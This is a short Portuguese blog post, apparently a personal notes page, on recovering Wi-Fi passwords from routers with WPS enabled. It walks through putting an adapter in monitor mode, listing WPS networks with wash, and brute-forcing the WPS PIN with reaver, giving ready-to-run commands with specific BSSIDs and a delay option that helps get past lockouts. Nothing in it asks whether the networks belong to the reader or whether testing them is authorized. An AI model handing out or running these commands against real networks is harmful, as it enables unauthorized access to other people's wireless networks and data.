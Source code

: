 ```yaml
---
title: "Encontrar senha <i>wi-fi</i> que usam WPS"
date: 2023-11-01T00:00:00-03:00
last_modified_at: 2023-11-01T00:00:00-03:00
excerpt_separator: "<!--more-->"
categories:
  - IT
  - Hacks
tags:
  - wi-fi
---
```


Seguindo o vídeo [Hack wifi with wps crack using reaver in kali linux 2018.1](https://www.youtube.com/watch?v=5ad8pCbkhOw) vi a possibilidade de descobrir senhas _wi-fi_ de roteadores que usam WPS, sem que seja definido um limite de testes. Outro site detalha outras opções que podem aperfeiçoar o código [**WPS Cracking with Reaver**](https://outpost24.com/blog/wps-cracking-with-reaver).

Passa a passo

1. Colocar o adaptar wifi em _monitor mode_
2. Com _wash_, descobrir as redes com WPS na região
3. Com _reaver_, usar o brutal force

<br>

---

## Wash

O [_Wash_](https://github.com/t6x/reaver-wps-fork-t6x) é uma ferramenta de varredura de rede sem fio que identifica pontos de acesso habilitados para WPS (Wi-Fi Protected Setup). Ele pode ser usado para detectar pontos de acesso sem fio vulneráveis e é frequentemente usado em testes de penetração. O Wash pode ser executado em um arquivo _pcap_ ou em uma interface ao vivo.

O comando abaixo lista todas as redes que estão com WPS ativo.

```bash
# This shows all WPS enabled APs using wireless interface.
sudo wash --interface wlan0mon
```

<br>

---

## Reaver

O Reaver é uma ferramenta de ataque de força bruta contra o número PIN do WPS (Wi-Fi Protected Setup) de um ponto de acesso sem fio. Uma vez que o PIN WPS é encontrado, a chave PSK WPA pode ser recuperada e, alternativamente, as configurações sem fio do ponto de acesso podem ser reconfiguradas. O Reaver pode ser executado em um arquivo pcap ou em uma interface ao vivo.

```bash
# Help
reaver --help

# Simple Attack
sudo reaver --interface wlan0mon --bssid 90:F6:52:F0:C5:B4 -vv

# Attack with parameters (wait 15 seconds between tries)
sudo reaver --interface wlan0mon --bssid 50:C7:BF:25:56:6D --channel 6 --dh-small --no-nacks --delay 15 -vvv
```

<br>

## Referências

- https://shehackske.medium.com/how-to-hack-wpa-wpa2-wifi-with-reaver-426899cbcf06
